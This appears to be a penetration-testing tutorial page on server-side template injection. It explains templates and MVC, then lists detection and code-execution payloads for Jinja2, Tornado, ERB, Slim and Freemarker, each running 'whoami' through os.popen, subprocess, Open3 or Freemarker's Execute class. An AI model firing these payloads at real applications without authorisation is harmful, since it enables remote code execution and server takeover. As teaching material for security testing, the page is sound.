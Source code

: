 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

The most popular template engine for Java.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

The **new()** command is used to instantiate classes -> execute class can be used to execute shell commands.

* ${7\*7}  ->  49

<mark style="color:green;">**For Code Execution:**</mark>

* <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
* \[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('whoami')}
* ${"freemarker.template.utility.Execute"?new()("whoami")}

